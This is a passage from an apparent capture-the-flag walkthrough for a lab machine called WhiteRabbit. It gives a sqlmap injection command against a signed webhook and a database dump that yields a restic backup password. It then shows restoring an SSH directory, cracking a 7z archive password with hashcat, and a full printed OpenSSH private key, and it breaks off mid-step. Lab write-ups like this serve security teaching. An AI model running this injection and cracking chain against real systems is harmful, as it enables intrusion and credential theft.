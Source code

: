 ```
func main() {
    http.HandleFunc("/", handler)
    fmt.Println("Listening on http://localhost:12345")
    log.Fatal(http.ListenAndServe(":12345", nil))
}
```

Then we can run the sqlmap to check the sql-injection here.
```
sqlmap.req
POST /webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d HTTP/1.1
Host: 28efa8f7df.whiterabbit.htb
Content-Type: application/json
User-Agent: sqlmap
Accept: */*
{"campaign_id":1,"email":"*","message":"Clicked Link"}

Is important to leave the request file without the x-gophish-signature header because the proxy will be adding that automatically

sqlmap -r sqlmap.req --proxy=http://127.0.0.1:8000 --batch --level=5 --risk=3 --threads=5
```
Then you can get dump of database.
We can get something interesting from table `command_log`
we find two important commands here, a restic subdomain `75951e6ff.whiterabbit.htb` with password, and a hint for a password generator
```
❯ echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd

❯ chmod 600 .restic_passwd

❯ export RESTIC_REPOSITORY="rest:http://75951e6ff.whiterabbit.htb"

❯ export RESTIC_PASSWORD_FILE=".restic_passwd"

❯ restic snapshots
repository 5b26a938 opened (version 2, compression level auto)
created new cache in /home/redacted/.cache/restic
ID        Time                Host        Tags        Paths
------------------------------------------------------------------------
272cacd5  2025-03-06 19:18:40  whiterabbit            [color=#4cea5e]/dev/shm/bob/ssh[/color]
------------------------------------------------------------------------
1 snapshots

❯ restic restore latest --target ./restored_data

```
There is a blocked 7z file here, but we can use `7z2hashcat` get the hash and crack the password
```
./7z2hashcat.pl bob.7z > bob.hash
hashcat -m 11600 bob.hash /usr/share/wordlists/rockyou.txt 

Then we get the password
bob:1q2w3e4r5t6y
Then we can successfully get the ssh credit
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBvDTUyRwF4Q+A2imxODnY8hBTEGnvNB0S2vaLhmHZC4wAAAJAQ+wJXEPsC
VwAAAAtzc2gtZWQyNTUxOQAAACBvDTUyRwF4Q+A2imxODnY8hBTEGnvNB0S2vaLhmHZC4w
AAAEBqLjKHrTqpjh/AqiRB07yEqcbH/uZA5qh8c0P72+kSNW8NNTJHAXhD4DaKbE4OdjyE
FMQae80HRLa9ouGYdkLjAAAACXJvb3RAbHVjeQECAwQ=
-----END OPENSSH PRIVATE KEY-----

From the config file, we get
```